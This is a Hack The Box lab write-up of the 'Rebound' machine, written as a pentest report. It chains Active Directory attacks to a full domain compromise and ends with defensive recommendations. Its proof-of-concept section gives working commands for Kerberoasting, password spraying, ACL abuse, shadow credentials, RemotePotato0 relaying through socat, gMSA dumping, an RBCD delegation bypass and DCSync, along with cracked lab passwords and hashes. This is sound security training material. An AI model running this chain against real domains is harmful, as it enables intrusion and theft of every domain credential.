# Rebound

# 1) Title

Active Directory Complete Domain Compromise Attack Chain

# 2) Summary

A chain of Active Directory misconfigurations enabled complete domain compromise. The attack involved an unauthenticated Kerberoasting vector, explicit AD ACL abuses (AddSelf and GenericAll), Shadow Credentials injection to bypass password reset routines, DCOM reflection (RemotePotato0) for session hijacking, and ultimately a Resource-Based Constrained Delegation (RBCD) attack coupled with Machine Account Impersonation to bypass NOT_DELEGATED constraints and achieve DCSync.

# 3) Steps to Reproduce

1. Execute an unauthenticated SMB RID bruteforce using the null/guest account to harvest a complete domain user list.
2. Exploit a No-Preauth Kerberoasting vulnerability against the jjones account to obtain a valid Ticket Granting Service (TGS) hash and crack it offline.
3. Conduct a Password Spray attack across the dumped users to identify reused credentials, gaining authenticated access as ldap_monitor and oorend.
4. Run BloodHound enumeration (over LDAPS) to discover that oorend has AddSelf privileges on the SERVICEMGMT group, which inherently possesses GenericAll over the winrm_svc account.
5. Remotely add oorend to the SERVICEMGMT group and utilize the acquired privileges to inject Shadow Credentials (msDS-KeyCredentialLink) into winrm_svc. This establishes a persistent Kerberos ticket (.ccache) to bypass internal password reset cronjobs.
6. Authenticate to the Domain Controller via WinRM and identify concurrent active
sessions. Upload and trigger a DCOM reflection attack (RemotePotato0) bound to a local socat listener to hijack the active session belonging to tbrady. Intercept and crack the incoming NTLM hash.
7. Query tbrady's permissions to dump the NT hash of the delegator$ Group Managed Service Account (gMSA) via its ReadGMSAPassword capability.
8. Discover that delegator$ has Constrained Delegation over http/dc01. Since attempting to impersonate the standard Administrator account
fails due to its NOT_DELEGATED restriction, initiate an RBCD bypass.
9. Modify LDAP attributes giving ldap_monitor the right to delegate to delegator$. Execute S4U2self and S4U2proxy mimicking the Machine Account DC01$ (which inherently lacks the NOT_DELEGATED flag).
10. Use the newly forged delegation ticket to launch a DCSync attack and securely extract the final Administrator NT Hash.

---

# 4) Proof of Concept

### 1. Reconnaissance & Enumeration

An initial Nmap scan exposed a Domain Controller running DNS, Kerberos, SMB, LDAP(S), and WinRM.





Testing
 Null and Guest authentication against SMB using NetExec revealed that 
the guest account allowed read access to several shares (IPC$, Shared).



Since basic shares yielded no critical files, I executed a **RID Bruteforce** attack utilizing the guest account to extract the complete list of Active Directory users.

`nxc smb 10.129.16.89 -u 'guest' -p '' --rid-brute 10000`

*(Extracted output was piped into awk and cut to build a clean usernames.txt wordlist).*

### 2. Initial Foothold: Kerberoasting & Lateral Spreading

AS-REP roasting returned no results. However, attempting **Kerberoasting without pre-authentication** successfully captured a Ticket Granting Service (TGS) hash for the user jjones.

`impacket-GetUserSPNs -no-preauth jjones -usersfile usernames.txt -dc-host 10.129.16.89 rebound.htb/`

Extracted the $krb5tgs$ hash and cracked it offline using John The Ripper:

- **Password:** 1GR8t@$$4u

Executing a password spray across the dumped domain users revealed that two other accounts utilized this exact password: ldap_monitor and oorend.

`nxc smb  10.129.16.89  -u usernames.txt -p '1GR8t@$$4u' --continue-on-success
# Output [+] rebound.htb\ldap_monitor:1GR8t@$$4u
# Output [+] rebound.htb\oorend:1GR8t@$$4u`



### 3. AD Enumeration & ACL Abuse

Updated /etc/krb5.conf with rebound.htb
 mappings. Extracted the full Active Directory topology via BloodHound, 
relying on LDAPS (port 636) as LDAP signing was enforced.

`bloodhound-python -u 'ldap_monitor' -p '1GR8t@$$4u' -d rebound.htb -dc DC01.rebound.htb -ns 10.129.16.89 -c All --zip --use-ldaps`

**Analysis:**

The user oorend possessed the AddSelf property over the SERVICEMGMT group. In turn, SERVICEMGMT maintained GenericAll rights over OU=SERVICE USERS (which included the winrm_svc account).

**Exploitation:**

I mapped oorend to the target group via RPC, then asserted total control over winrm_svc by resetting its password.

`# Add oorend to the SERVICEMGMT group`
  `bloodyAD -u 'oorend' -p '1GR8t@$$4u' -d 'rebound.htb' --host 10.129.232.31  add groupMember 'SERVICEMGMT' 'oorend'`

Since the SERVICEMGMT group natively holds GenericAll privileges over the OU=SERVICE USERS organizational unit, my newly acquired membership allowed me to explicitly grant GenericAll control over that entire OU directly to my oorend user.

`bloodyAD -u 'oorend' -p '1GR8t@$$4u' -d 'rebound.htb' --host 10.129.232.31 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend`

then

`# Reset the winrm_svc password 
bloodyAD -u 'oorend' -p '1GR8t@$$4u' -d 'rebound.htb' --host 10.129.232.31 set password 'winrm_svc' 'NAbil1234'`

Authenticated with winrm_svc:NAbil1234 utilizing evil-winrm and secured the user.txt flag.

### 4. Bypassing Reset-Routines via Shadow Credentials

A server cronjob systematically reverted the winrm_svc
 password every few minutes. Instead of constantly racing against the 
scheduled task, I utilized the acquired GenericAll permissions to 
implant **Shadow Credentials** (msDS-KeyCredentialLink).

This guarantees persistent access directly through certificates without needing the dynamic plaintext password.

`certipy-ad shadow auto -u 'oorend@rebound.htb' -p '1GR8t@$$4u' -dc-ip 10.129.232.31 -account 'winrm_svc'
# Output [*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512`



Extracted the resulting Kerberos ticket (.ccache) and launched a stable remote session via Pass-The-Ticket:

`export KRB5CCNAME=/home/kali/HackTheBox/Rebound/winrm_svc.ccache
evil-winrm -i dc01.rebound.htb -r rebound.htb`



### 5. DCOM/Session Hijacking (RemotePotato0)

Enumerating logged-in terminal sessions (qwinsta) using an uploaded RunasCs.exe instance showcased an active session originating from tbrady.





Since I cohabitated the machine alongside tbrady, I triggered a rogue DCOM initialization combined with **RemotePotato0**.
 This manipulated Windows into reflecting an authentication attempt 
through Port 135 out to my Kali machine listener (port 9999).

`# Setup SOCAT reverse port-forward on Kali:
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.12.81:9999

# Trigger DCOM Reflection forcing 'tbrady' token mapping on victim machine
.\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.8 -p 135`

Captured the incoming NTLMv2 hash on Responder, broke it offline via Hashcat, revealing: 543BOMBOMBUNmanda. Validated using NetExec SMB.

### 6. Privilege Escalation: gMSA, Constrained Delegation & RBCD

Re-verifying BloodHound denoted that tbrady had ReadGMSAPassword capabilities mapped towards the gMSA object: DELEGATOR$.

`nxc ldap 10.129.232.31 -u tbrady -p '543BOMBOMBUNmanda' --gmsa
# Output DELEGATOR$ NTLM Hash: aafb74ba2eb5e5ff7003a9a54ad1f904`



Impacket’s findDelegation exposed that DELEGATOR$ maintains **Constrained Delegation (AllowedToDelegate)** explicitly to http/dc01.rebound.htb.

**The Roadblock (The Administrator Trap):**

Typically, possessing Constrained Delegation lets attackers issue S4U2self / S4U2proxy combinations mapping Administrator onto http.

However, interrogating the Administrator AD-object uncovered the restriction attribute: NOT_DELEGATED ("Account is sensitive and cannot be delegated"). This effectively blocked vertical privilege escalation.

**The Solution: Machine Account Impersonation via RBCD**

To overcome the explicit Administrator delegation ban, I utilized a **Resource-Based Constrained Delegation (RBCD)** bypass technique.

I authorized an SPN-holding account I previously compromised (ldap_monitor) permission to impersonate interactions interfacing natively into delegator$.

*Step A: Alter the LDAP attributes establishing RBCD authority.*

`impacket-rbcd 'rebound.htb/delegator$' -hashes :aafb74ba2eb5e5ff7003a9a54ad1f904 -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip dc01 -use-ldaps`



*Step B: Request S4U2self Ticket impersonating the Machine Account (DC01$), instead of Administrator (since Machine accounts lack the "Not_Delegated" property).*

`impacket-getST  'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate DC01$`

*Step C: Issue S4U2proxy passing the obtained valid impersonation ticket directly across.*

 `impacket-getST -dc-ip dc01 -spn http/dc01.rebound.htb -impersonate DC01$ -additional-ticket ‘DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache’ 'rebound.htb/delegator$' -hashes :aafb74ba2eb5e5ff7003a9a54ad1f904`



### 7. DCSync & Total Forest Compromise

Riding securely upon the extracted DC machine delegation tokens (DC01$.ccache), performing the authoritative Directory replication sequence completely evaded structural prohibitions!

`# Setup the retrieved high-privileged ticket locally
export KRB5CCNAME=DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
# Extract all AD parameters mimicking legitimate backup replications (DCSync)
impacket-secretsdump -just-dc-ntlm dc01.rebound.htb -k -no-pass`


Retrieved native Administrator Hash: 176be138594933bb67db3b2572fc91b8.

Accessed the server utilizing evil-winrm leveraging simple Pass-The-Hash. Root access guaranteed. Machine Pwned!



# 5) Impact

This chained attack allows a completely unauthenticated actor to achieve a full Domain Compromise (DCSync/Root).
By leveraging weak Active Directory permissions (ACLs), bypassing password reset protections via Shadow Credentials, and exploiting legacy protocols (DCOM session hijacking), the attacker can laterally move and escalate privileges. Finally, bypassing the explicit NOT_DELEGATED protection on the Administrator account using RBCD allows the attacker to dump all domain password hashes (NTDS.dit). The ultimate impact is absolute control over the organization's entire IT infrastructure, enabling ransomware deployment, total data theft, and persistent hidden access.

# **6) Recommendation**

To effectively secure the environment, the following structural mitigations must be implemented:

1. **Fix Active Directory ACL Misconfigurations:** Immediately remove the AddSelf permission assigned to user oorend over the SERVICEMGMT group. Additionally, revoke the excessive GenericAll rights that the group has over OU=SERVICE USERS.
2. **Restrict Shadow Credentials Execution:** Deny the ability to modify the msDS-KeyCredentialLink attribute for standard users/groups. Only high-tier Domain
Administrators should be able to create Certificate/Key configurations.
3. **Patch DCOM/NTLM Reflection (RemotePotato):** Enforce strict NTLM authentication mitigations across the domain (like
RPC Sealing and SMB Signing). Avoid logging into highly privileged
administrative accounts (like tbrady) via interactive RDP sessions on general-purpose servers.
4. **Secure gMSA Accounts:** Remove the explicit ReadGMSAPassword ACL assigned to local users (e.g., tbrady). Only dedicated service accounts should possess the ability to query the password of the delegator$ account.
5. **Monitor and Restrict RBCD (Delegation Bypass):** Regularly audit Active Directory for suspicious modifications to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. Limit who can configure Resource-Based Constrained
Delegation strictly to Domain Admins, blocking standard accounts from
hijacking Machine Account authentication tickets (DC01$).
